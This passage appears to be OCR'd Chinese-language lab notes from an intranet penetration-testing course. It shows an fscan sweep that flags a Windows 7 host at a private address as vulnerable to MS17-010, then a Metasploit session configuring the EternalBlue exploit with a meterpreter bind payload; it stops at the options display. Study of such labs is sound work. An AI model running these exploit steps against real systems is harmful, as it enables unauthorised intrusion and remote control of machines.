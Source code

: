 J:\内网渗透-tools\工具清单\day04>fscan -h 10.2.2.25           【相比于 nmap，3389没有显示！】

> start infoscan
> (icmp) Target '10.2.2.25' is alive
> icmp alive hosts len is: 1
> 10.2.2.25:135 open
> 10.2.2.25:139 open
> 10.2.2.25:445 open
> alive ports len is: 3
> start vulscan
> NetInfo:
> [*]10.2.2.25
>    [->]admin-PC
>    [->]10.2.2.25
> [*] 10.2.2.25            WORKGROUP\ADMIN-PC          Windows 7 Enterprise 7600
> [+] 10.2.2.25   MS17-010        (Windows 7 Enterprise 7600)
> 已完成 4/4
> scan end


#### msfconsole                                                                                                                        

【】????两个模块的区别          exploit/windows/smb/smb_doublepulsar_rce   exploit/windows/smb/ms17_010_eternalblue 


msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.2.2.25
rhost => 10.2.2.25
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 4444
lport => 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.2.2.25        yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT          445              yes       The target port (TCP)
   SMBDomain      .                no        (Optional) The Windows domain to use for authentication
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/bind_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     10.2.2.25        no        The target address
